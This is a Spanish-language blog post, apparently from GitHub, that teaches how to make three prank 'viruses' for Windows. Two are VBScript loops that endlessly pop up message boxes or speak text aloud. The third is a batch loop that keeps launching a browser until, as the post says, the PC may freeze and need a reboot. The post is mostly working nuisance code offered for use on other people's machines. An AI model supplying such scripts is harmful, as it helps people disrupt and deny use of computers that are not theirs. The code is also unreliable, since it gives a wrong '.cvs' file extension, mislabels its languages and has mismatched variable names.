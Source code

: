 ```yaml
---
layout: single
title: Tres tipos de virus y como crearlos
excerpt: "En este post, vamos a estar viendo como podemos crear muy fácilmente tres virus para windows"
date: 2022-02-04
classes: wide
header:
  teaser: /assets/images/tres_tipos_de_virus_y_como_crearlos_1.jpg
  teaser_home_page: true
categories:
  - Virus
  - Windows
  - Noob
  - Batch
tags:
  - Virus
  - Noob
  - Windows
  - Batch
---
```


![](/assets/images/tres_tipos_de_virus_y_como_crearlos_1.jpg)

Buenas tardes a todos, hoy vamos a aprender como crear tres tipos de virus para gastar alguna broma.

##ATENCIÓN:   EL CREADOR DES ESTE BLOG NO SE HACE RESPONSABLE DEL MAL USO QUE SE LE PUEDA DAR A ESTE PROYECTO, EL CUAL FUE CREADO CON FINES EDUCATIVOS.

Cada virus, es de un nivel diferente, el nivel 1 es el más fácil de desactivar, pero el 3 puedes llegar a tener que apagar el ordenador.


# Nivel 1 .cvs
_______________________________________________
```Batch

do 
Mensaje=msgbox("Hola" ,16, "Mensaje") 
Mensaje=msgbox("¿Qué haces?" ,16, "Mensaje") 
Mensaje=msgbox("Quieres salir?" ,16, "Mensaje") 
Mensaje=msgbox("Estas segur@?" ,16, "Mensaje") 
Mensaje=msgbox("Pero no puedes" ,16, "Mensaje") 
Mensaje=msgbox("infinito python" ,16, "Mensaje") 
loop 
```

En este nivel, se crean un montón de carteles con la frase que quieras, sustituyendo las frases que están entre comillas por la que quieras.


# Nivel 2 .cvs

_______________________________________________

```Batch
do 
Dim var1, var2 var1="infinito python" 
Set va2=CreateObject("sapi.spvoice") 
va2.Speak 
var1 
loop 
```




En este script, lo que hace es hablar todo el contenido donde está situado infinito python.





# Nivel 3 .bat

_______________________________________________



```Batch
:bucle 
@echo off 
start iexplore.exe 
goto bucle 
``



_______________________________________________


El "iexplore.exe" lo puedes cambiar por "explorer.exe " o "chrome.exe" o "winword.exe" o "notepad.exe"


_______________________________________________




Este último nivel, es el más peligroso, por que empieza a abrir páginas de la aplicación deseada lo cual puede ocasionar que el pc se congele y haya que reiniciarlo.


Excepto el 3, puedes desactivar cualquiera desde el administrador de tareas (ctrl+alt+supr, buscando el nombre del archivo y finalizando la tarea.



En el nombre de los niveles, he puesto la terminación con la que hay que guardar el archivo para que funcione.





